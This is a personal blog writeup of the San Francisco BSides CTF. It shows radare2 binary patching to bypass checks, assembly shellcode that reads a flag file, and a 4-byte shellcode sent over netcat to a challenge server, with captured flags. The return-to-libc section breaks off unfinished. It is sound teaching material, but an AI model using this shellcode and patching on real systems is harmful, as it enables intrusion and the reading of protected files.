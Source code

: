 #+BEGIN_EXPORT html
---
layout: page
title: San Francisco BSides CTF Writeup
excerpt: A quick writeup of San Francisco Bsides CTF
tags:
  - ctf
  - infosec
category: note
---
#+END_EXPORT

* Conference
In my short life, I've seen security conferences move from /"hide the speed
pipe"/ to /"Information security professionals discuss changes in information
assurance policy and cybersecurity"/.

At no other hacker conference is it clearer than at BSides that the the racous
parties and threats of e-violence have been replaced with the hushed tones and
somber realities of securing actual computer networks. Bsides is still closer to
hacking's eager and optimistic roots than to it's sober future, but the impact
of shifting status and fabulous wealth of new infosec startups has perceptibly
influenced it's culture already.

Because of the conference's stature in the Bay Area, many of the intelligensia
of the San Francisco haqr scene managed to make an appearance. Lots of drinks
were handed out, door security was lax and the hallway track was alive.
* Writeups

I lost interest in the talks fairly quickly, but after a friend invited me to
play the CTF and I was immediately impressed. The Bsides crew managed to avoid
many of the lame challenge formats and structural deficits that have made other
CTFs tiresome rather than competitive. The challenges were extremely diverse in
their subjects and no one group (even 'professional' CTF teams) managed to
secure an answer to every challenge.

Me and my friend managed to do pretty well, we ended up finishing in the top 5% of
participants with substantially smaller team than others. 

Because so many of these challenges don't have their answers published by their
XXXXXXXs after the event is settled, it's up to the community to put together
'writeups' of the techniques employed in solving these. Here is a smattering of
some challenges I've written for.


** NOP
   The =NOP= instruction is microcode for =xchg EAX, EAX=
** easycap
   This challenge doesn't include the flag in a string because it's spread out over
   multiple packets. You can easily extract the flag by 'following' a TCP stream in
   your network packet capture software of choice.

** easy
    This challenge doesn't require you to perform any reverse engineering as the
    the flag is visible as a direct =.symstrtab= entry.

    #+BEGIN_EXAMPLE
zv@syszv >> strings easy-64 | grep -i flag
FLAG:db2f62a36a018bce28e46d976e3f9864
    #+END_EXAMPLE

** Skipper
    In this challenge I'm going to use one of the best disassemblers available
    today: [[http://radare.org/r/][radare]] . It is both free and contains many facilities for modifying
    the binary in various ways (without plugins). (You could also solve this
    challenge with a debugger very easily)

#+BEGIN_EXAMPLE
cp tmp/skipper64 /tmp/skipper64-backup # a backup in case you fubar the binary
r2 /tmp/skipper64
#+END_EXAMPLE

Next, seek the read head to the =main= symbol and tap ~V~ key to bring yourself
into disassembly.

#+BEGIN_EXAMPLE
[0x004026d1]> s main
#+END_EXAMPLE

#+BEGIN_EXAMPLE
    0x004026d1      push rbp                                                                                                                                                                                
    0x004026d2      mov rbp, rsp                                                                                                                                                                            
    0x004026d5      sub rsp, 0x420                                                                                                                                                                          
    0x004026dc      mov dword [rbp - 0x414], edi                                                                                                                                                            
    0x004026e2      mov qword [rbp - 0x420], rsi                                                                                                                                                            
    0x004026e9      mov rax, qword fs:[0x28]                   ; [0x28:8]=0x3200 ; '('                                                                                                                      
    0x004026f2      mov qword [rbp - 8], rax                                                                                                                                                                
    0x004026f6      xor eax, eax                                                                                                                                                                            
    0x004026f8      lea rax, [rbp - 0x410]                                                                                                                                                                  
    0x004026ff      mov rdi, rax                                                                                                                                                                            
    0x00402702      call 0x400b3e                              ;[1]                                                                                                                                         
    0x00402707      lea rax, [rbp - 0x410]                                                                                                                                                                  
    0x0040270e      mov rsi, rax                                                                                                                                                                            
    0x00402711      mov edi, str.Computer_name:__s_n           ; "Computer name: %s." @ 0x402987                                                                                                            
    0x00402716      mov eax, 0                                                                                                                                                                              
    0x0040271b      call sym.imp.printf                        ;[2]                                                                                                                                         
    0x00402720      lea rax, [rbp - 0x410]                                                                                                                                                                  
    0x00402727      mov esi, str.hax0rz__                      ; "hax0rz!~" @ 0x40299a                                                                                                                      
    0x0040272c      mov rdi, rax                                                                                                                                                                            
    0x0040272f      call sym.imp.strcmp                        ;[3]                                                                                                                                         
    0x00402734      test eax, eax                                                                                                                                                                           
┌─< 0x00402736      je 0x40275b                                ;[4]                                                                                                                                         
│   0x00402738      lea rax, [rbp - 0x410]                                                                                                                                                                  
│   0x0040273f      mov rsi, rax                                                                                                                                                                            
│   0x00402742      mov edi, str.Sorry ; "Sorry, your computer's name - %s - is not correct!." @ 0x4029a8                                                    
│   0x00402747      mov eax, 0                                                                                                                                                                              
│   0x0040274c      call sym.imp.printf                        ;[2]                                                                                                                                         
│   0x00402751      mov edi, 9                                                                                                                                                                              
│   0x00402756      call sym.imp.raise                         ;[5]                                                                                                                                         
└─> 0x0040275b      lea rax, [rbp - 0x410]                                                                                                                                                                  
    0x00402762      mov rdi, rax                                                                                                                                                                            
    0x00402765      call 0x400c4a                              ;[6]                                                                                                                                         
    0x0040276a      lea rax, [rbp - 0x410]                                                                                                                                                                  
    0x00402771      mov rsi, rax                                                                                                                                                                            
    0x00402774      mov edi, str.OS_version:__s_n              ; "OS version: %s." @ 0x4029dc                                                                                                               
    0x00402779      mov eax, 0                                                                                                                                                                              
    0x0040277e      call sym.imp.printf                        ;[2]                                                                                                                                         
    0x00402783      lea rax, [rbp - 0x410]                                                                                                                                                                  
    0x0040278a      mov esi, str.2.4.31                        ; "2.4.31" @ 0x4029ec                                                                                                                        
    0x0040278f      mov rdi, rax                                                                                                                                                                            
    0x00402792      call sym.imp.strcmp                        ;[3]                                                                                                                                         
    0x00402797      test eax, eax                                                                                                                                                                           
┌─< 0x00402799      je 0x4027e3                                ;[7]                                                                                                                                         
│   0x0040279b      lea rax, [rbp - 0x410]                                                                                                                                                                  
│   0x004027a2      mov rsi, rax                                                                                                                                                                            
│   0x004027a5      mov edi, str.Sorry__your_OS_version____s___is_not_supported__n
#+END_EXAMPLE

You can see here that several functions are being called and compared against
builtin strings like /hax0r!~/. The context gives you an idea that it's checking
the hostname, but let's be sure.

#+BEGIN_EXAMPLE
[0x004026d1]> s 0x400b3e
[0x00400b67]> pd 10 @ +64
0x00400ba7      mov edi, 1
0x00400bac      call sym.imp.exit
0x00400bb1      mov ecx, 0
0x00400bb6      mov edx, 0x40291f                          ; "-n"
0x00400bbb      mov esi, str.uname                         ; "uname" @ 0x402922
0x00400bc0      mov edi, str.uname                         ; "uname" @ 0x402922
0x00400bc5      mov eax, 0
0x00400bca      call sym.imp.execlp
0x00400bcf      call sym.imp.__errno_location
0x00400bd4      mov eax, dword [rax]
#+END_EXAMPLE

You can see it's calling =uname= here. Before you start changing your system's
configuration to accommodate, first know it's not possible to set your hostname
to this value.

This means you are going to either have to use a debugger and manually change
the =ZF=, =CF=, =OF= or other condition flags or patch up all of the =je=
instructions.

#+BEGIN_EXAMPLE
[0x00400b67]> oo+ # This makes the binary writable
[0x00400b67]> wao jmp @ 0x00402736
[0x00400b67]> wao jmp @ 0x00402799
...
#+END_EXAMPLE

After this, run the binary and get the flag! ~FLAG:f51579e9ca38ba87d71539a9992887ff~


** TODO Skipper2

** Easyshell 1 
   Both of the easyshell puzzles are warmups who run any shellcode sent on the
   wire. However, you can't use some of the most common shellcode for spawning
=/bin/sh= as there is no remote shell. This shellcode reads the file
   =/home/ctf/flag.txt=

   Compile with ~nasm -f bin flag.asm~

#+BEGIN_SRC asm
BITS 32
section .text
_start:
	xor	%eax, %eax
	xor	%ebx, %ebx
	xor	%ecx, %ecx
	xor	%edx, %edx
	jmp	two

one:
	pop	%ebx
	
	movb	$5, %al
	xor	%ecx, %ecx
	int	$0x80
	
	mov	%eax, %esi
	jmp	read

exit:
	movb	$1, %al
	xor	%ebx, %ebx
	int	$0x80

read:
	mov	%esi, %ebx
	movb	$3, %al
	sub	$1, %esp
	lea	(%esp), %ecx
	movb	$1, %dl
	int	$0x80

	xor	%ebx, %ebx
	cmp	%eax, %ebx
	je	exit

	movb	$4, %al
	movb	$1, %bl
	movb	$1, %dl
	int	$0x80
	
	add	$1, %esp
	jmp	read

two:
	call	one
	.string	"/home/ctf/flag.txt"
#+END_SRC


** Easyshell 2
   Like the prior challenge, you simply just need to write some code to read out
   a file. I used the following.

   #+BEGIN_SRC asm
 BITS 64
 section .text
 _start:
   jmp _push_filename

 _readfile:
   ; syscall open file
   pop rdi ; pop path value
   xor rax, rax
   add al, 2
   xor rsi, rsi ; set O_RDONLY flag
   syscall
  
   ; syscall read file
   sub sp, 0xfff
   lea rsi, [rsp]
   mov rdi, rax
   xor rdx, rdx
   mov dx, 0xfff; size to read
   xor rax, rax
   syscall
  
   ; syscall write to stdout
   xor rdi, rdi
   add dil, 1 ; set stdout fd = 1
   mov rdx, rax
   xor rax, rax
   add al, 1
   syscall
  
   ; syscall exit
   xor rax, rax
   add al, 60
   syscall
  
 _push_filename:
   call _readfile
   path: db "/home/ctf/flag.txt"
   #+END_SRC

** i-am-the-shortest
   This is a challenge designed to mimic the common constraints exploit authors must deal with.

   The premise of the challenge is that you get to execute 5 arbitrary bytes - far
   shorter than even the shortest shellcode could allow for.

   There's undoubtedly dozens of ways the problem can be solved, I've successfully used two:

*** Direct System Call
    Beginning at =0x80487ef=, the core code runs:

    #+BEGIN_SRC asm
  call   80486db <get_flag> ;; where the 'flag' is gotten
  add    esp,0x10
  lea    eax,[ebp-0x8c]
  mov    esi,eax
  mov    ebx,0x1
  sub    esp,0x8
  lea    eax,[ebp-0x8c]
  push   eax
  push   0x8048946
  call   8048500 <printf@plt>
  add    esp,0x10
  sub    esp,0xc
  push   0x8048964
  call   8048550 <puts@plt>
  add    esp,0x10
  sub    esp,0x4
  push   0x5
  push   DWORD PTR [ebp-0x94]
  push   0x0
  call   80484f0 <read@plt> ;; where `read` is called
  add    esp,0x10
  mov    DWORD PTR [ebp-0x90],eax
  mov    edx,0xff
  cmp    DWORD PTR [ebp-0x90],0x5
  ja     804885c <main+0x10c>
  jmp    DWORD PTR [ebp-0x94] ;; here is where it finally jumps in
    #+END_SRC

    The last line is where this =jmp= to attacker-controlled memory actually
    occurs.

    Although the above code snippet doesn't show it directly, it's also important
    to note that the address of the flag read remains stored in =ESI= when the ~jmp
    [ebp-0x94]~ occurs.

    In tandem with the fact that =read= returns the length of the value read in
    =EAX=, you can abuse this by entering a system-call. (Remember, Linux calling
    convention dictates that x86 system call's interrupt vector is given in =EAX=)

    So, in total you need to write shellcode that is only *4* bytes long (rather
    than the maximum permitted of 6), you can have the interrupt vector 'prefilled'
    for you. This leaves you with only two tasks:

    - All you need to do now is find an efficient way to copy =ESI= into =ECX= (the source register for the =read= system call)
    - Actually invoking a system call.

    There are a number of ways to do the above and due to the idiosyncracies of how
    assemblers are written and how opcodes are decoded, it's possible to write many
    different variations of an instruction that vary wildly in length. Anything
    that moves the contents of ESI into ECX will do.

    After this, you need to initiate a system call, you can use either =sysenter=
    or =int 0x80= as both are encoded in 2 bytes.

    All told, the following shellcode should do just fine.
 
    #+BEGIN_SRC asm
  mov cx, si
  int 0x80
    #+END_SRC

    I use and recommend [[http://www.nasm.us/][Netwide Assembler]], although there are other tools like
    [[https://github.com/radare/radare2/wiki/Ragg2][Ragg2]]. To generate assembly without any sort of executable format, you can use
    the following argument switches to assemble and hexdump your shellcode:

    ~nasm -f bin assembly.asm && xxd assembly~

    After this, you can encode it in whichever format you'd like and send it off!

    #+BEGIN_EXAMPLE
 [zv@syszv] /tmp >> echo -en '\x89\xf1\xcd\x80' | \
                    nc i-am-the-shortest-6d15ba72.ctf.bsidessf.net 8890
 The address of 'flag' is 0xfff3bd5c
 Send your machine code now! Max length = 5 bytes.

 FLAG:c9f053110aa0f2d28ed8978e3b03cb01
 v7`v`v7`vyy`v`vp7x%
    #+END_EXAMPLE

*** Return-to-Libc
    This is a little trickier, you need to abuse at least two different tricks here.

   
   
